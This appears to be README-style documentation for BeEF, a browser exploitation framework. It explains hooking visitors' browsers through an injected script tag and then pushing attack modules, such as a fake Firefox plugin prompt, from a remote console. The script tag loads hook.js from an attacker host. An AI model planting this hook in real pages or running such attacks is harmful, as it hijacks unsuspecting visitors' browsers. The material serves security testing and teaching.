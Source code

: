 # BeEF - The Browser Exploitation Framework
[Documentation](https://adhdproject.github.io/#!Tools/Attack/Beef.md)
[Website](https://beefproject.com/)
The BeEF is a framework for remotely controlling and exploiting the web browsers of unsuspecting targets. The core concept of BeEF is to "hook" browsers that visit a webpage controlled by the attacker, and by doing so hand over arbitrary control of the webpage instance to a remote console. Although BeEF is conceptually simple, its module driven extensibility, as well as its REST api for externally scripting attacks, make it extremely flexible. 

### Usage
1) First, a webpage must be primed to hook visitors. Embedding a single script tag loading BeEF's hook functionality is enough. Once a web browser visits a webpage containing hook code, the browser will reach out to the BeEF console. 
```html
<script src='http://192.168.1.109:3000/hook.js'></script>
```

2. Next, the attacker can log into the BeEF web console. On the left will show hooked browser instances, and on the right will be information collected by BeEF about them. 

![beef web console](https://adhdproject.github.io/Tools/Attack/Beef_files/Image_004.PNG)

3) From the commands tab, in the right window, the attacker can select from well over 100 pre-loaded attack modules, as well as any that they may write themselves. Here is an example of a malicious Firefox plugin prompt. 

![enter image description here](https://adhdproject.github.io/Tools/Attack/Beef_files/Image_007.png)

After a few seconds, the hooked browser will display this message:

![enter image description here](https://adhdproject.github.io/Tools/Attack/Beef_files/Image_009.png)
What follows once the plugin is installed is up to the imagination of the attacker. All attack modules are customizable, for example allowing you to choose the malicious module installed in this scenario. There is a lot of room for creativity. Check out some of BeEF's other plugins [here.](https://github.com/beefproject/beef/tree/master/modules)

### REST API
A video showcasing using BeEF's REST api for scripted attacks can be seen [here.](https://youtu.be/xdbvU_U42kY)
